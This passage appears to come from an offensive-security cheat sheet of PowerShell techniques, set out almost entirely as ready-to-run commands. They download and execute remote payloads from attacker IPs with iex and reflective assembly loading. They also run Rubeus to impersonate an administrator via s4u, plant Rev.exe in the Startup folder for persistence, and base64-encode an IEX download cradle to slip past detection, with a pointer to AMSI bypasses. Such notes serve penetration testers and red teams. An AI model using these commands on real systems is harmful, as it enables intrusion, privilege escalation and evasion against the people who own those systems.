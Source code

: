 #### Non-proxy aware:

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```

### **Load C# assembly reflectively**

Ensure that the referenced class and main methods are `public` before running this. Note that a process-wide AMSI bypass may be required for this to work if the content is detected, [refer here for details](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/).

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# Download and run Rubeus, with arguments (make sure to split the args)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

### PowerShell - **Download file**

```powershell
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

#### **Encoded commands**

Base64-encode a PowerShell command in the right format:

```powershell
$command = 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```
